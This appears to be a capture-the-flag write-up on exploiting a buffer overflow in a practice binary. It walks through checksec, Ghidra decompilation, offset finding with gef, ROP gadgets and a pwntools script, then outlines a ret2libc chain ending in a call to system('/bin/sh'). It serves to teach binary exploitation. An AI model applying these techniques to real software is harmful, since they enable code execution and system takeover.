




# Binary exploitation
I did a few sanity check before starting the exploit.  
Required dynamic libs
```bash
ldd libc.so.6
# Result
/lib64/ld-linux-x86-64.so.2 (0x00007f0684ec5000)
linux-vdso.so.1 (0x00007ffd4d363000)
```
Libc version
```bash
strings libc.so.6 | grep version
GNU C Library (Ubuntu GLIBC 2.27-3ubuntu1.2) stable release version 2.27.
```
Set the provided dynamic linker as elf interpeter 
```bash
patchelf --set-interpreter ./ld-2.27.so  ./vuln`
```
For elf hardenning check I used [checksec](https://github.com/slimm609/checksec.sh)
```bash
checksec --file=vuln
```

| RELRO  | STACK CANARY | NX | PIE | RPATH | RUNPATH | Symbols | FORTIFY Fortified |  Fortifiable | FILE |
|--|--|--|--|--|--|--|--|--|--|
| Partial RELRO | No canary found | NX enabled | No PIE | No RPATH | RW-RUNPATH | 68 Symbols|No|0|0|vuln|

No canary found. Thanks god.

Openning vuln with ghidra I can see that main function calls `do_stuff()` at the end
```C
void do_stuff(void){
  char cVar1;
  undefined local_89;
  char local_88 [112];
  undefined8 local_18;
  ulong local_10;
  
  local_18 = 0;
  __isoc99_scanf("%[^\n]",local_88);
  __isoc99_scanf("%c",&local_89);
  for (local_10 = 0; local_10 < 100; local_10 = local_10 + 1) {
    cVar1 = convert_case((int)local_88[local_10],local_10);
    local_88[local_10] = cVar1;
  }
  puts(local_88);
  return;
}
```
This function screams buffer overflow.

For advanced debugging I used gef. Lets run the program with buffer overflow and see what happens.
```

Program received signal SIGSEGV, Segmentation fault.
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x7a
$rbx   : 0x0
$rcx   : 0x007ffff7af4264  →  0x5477fffff0003d48 ("H="?)
$rdx   : 0x007ffff7dd18c0  →  0x0000000000000000
$rsp   : 0x007fffffffdaf8  →  "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[...]"
$rbp   : 0x6161616161616161 ("aaaaaaaa"?)
$rsi   : 0x007ffff7dd07e3  →  0xdd18c0000000000a ("\n"?)
$rdi   : 0x1
$rip   : 0x00000000400770  →  <do_stuff+152> ret
$r8    : 0x79
$r9    : 0x0
$r10   : 0x0
$r11   : 0x246
$r12   : 0x1b
$r13   : 0x0
$r14   : 0x1b
$r15   : 0x0
$eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x007fffffffdaf8│+0x0000: "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[...]"      ← $rsp
0x007fffffffdb00│+0x0008: "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[...]"
0x007fffffffdb08│+0x0010: "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[...]"
0x007fffffffdb10│+0x0018: "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[...]"
0x007fffffffdb18│+0x0020: "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[...]"
0x007fffffffdb20│+0x0028: "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[...]"
0x007fffffffdb28│+0x0030: "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[...]"
0x007fffffffdb30│+0x0038: "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[...]"
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x400769 <do_stuff+145>   call   0x400540 <puts@plt>
     0x40076e <do_stuff+150>   nop
     0x40076f <do_stuff+151>   leave
 →   0x400770 <do_stuff+152>   ret
[!] Cannot disassemble from $PC
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln", stopped 0x400770 in do_stuff (), reason: SIGSEGV
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x400770 → do_stuff()
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
0x0000000000400770 in do_stuff ()
gef➤
```
So rsp overidden with aaaa.... 
Now, let's determine the number of characters we need to overflow in order to precisely override rsp. To find the exact offset of rsp, we can use a unique pattern that allows us to trace the stack memory.  
```bash
gef➤  pattern create 200
[+] Generating a pattern of 200 bytes (n=8)
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa
```

Using gef I can get the offset of rsp
```bash
gef➤  pattern offset $rsp
# This give me the following
[+] Found at offset 136 (little-endian search) likely
```
By using gef, you can observe the loaded libc functions in memory. To do this, you first need to run the program so that the loader can search for and load all symbols into memory. Then, use the 'vm' command to view the memory addresses.



However, enabling ASLR will cause the addresses of the library and stack to change with each run.
```
aslr on
```

To clarify, we must calculate the offset of libc functions at runtime. During my search for how to accomplish this, I came across an intriguing idea. The .got.plt section contains a pointer to a pointer to scanf. I can also verify the compiled offset of scanf in libc.

The only way to retrieve this type of data is to print it, which led me to a new technique called Return Oriented Programming (ROP) that I was previously unfamiliar with. Although I won't dive into the details here, I will say that by placing addresses of specific instructions from the binary on the stack (rip), we can construct an entirely new logic.

For my initial "hello world" attempt, I aimed to locate a string address and print it using buffer overflow and ROP. However, before proceeding, we must first identify our ROP gadget.
```bash
# Why rdi? due to x86-64 this is the first reg to be popped.
ROPgadget --binary vuln | grep rdi

0x00000000004006c9 : and bl, ch ; or cl, byte ptr [rdi] ; mov dh, 0x45 ; cld ; jmp 0x4006d6
0x00000000004006cb : or cl, byte ptr [rdi] ; mov dh, 0x45 ; cld ; jmp 0x4006d6
0x00000000004006c2 : or dword ptr [rdi], ecx ; mov dh, 0x45 ; cld ; add eax, 0x20 ; jmp 0x4006d6
0x0000000000400913 : pop rdi ; ret # I'll use this one.
0x00000000004006c8 : shl byte ptr [rax], 0xeb ; or cl, byte ptr [rdi] ; mov dh, 0x45 ; cld ; jmp 0x4006d6
```

Now let's find a random string to print using ghidra.



```python
import pwn

p = pwn.process('./vuln')
offset = 136
junk = b'A'*offset
pop_rdi = 0x400913
string_example = 0x400402
puts_in_plt = 0x400540

pyload = [
    junk,
    pwn.p64(pop_rdi),
    pwn.p64(string_example),
    pwn.p64(puts_in_plt),   
]
p.sendline(b"".join(pyload))

p.interactive()
```
That worked!


The steps to achieve our goal are straightforward:

1. Select a libc function (e.g. scanf) and obtain its compiled offset.

`0x7b0b0`
2. Print the actual address of scanf using the same method.
3. Subtract the offset from the actual address to obtain the base address of libc.
4. Add the system offset to the base address of libc to obtain the actual address of system.
5. call system with /bin/sh


Few more notes

Unfortunately, I learned the hard way that Ghidra loads with a base address. Therefore, a more effective approach to finding the string address is to.
    ```bash
    strings -tx libc.so.6 | grep "/bin/sh"
    ```
    which is `0x1b40fa`
It also seems like scanf address is different from the one I found in readelf, so I used another function from GOT.

I have attached the Python script in this folder for your reference.

Thank you for reading.
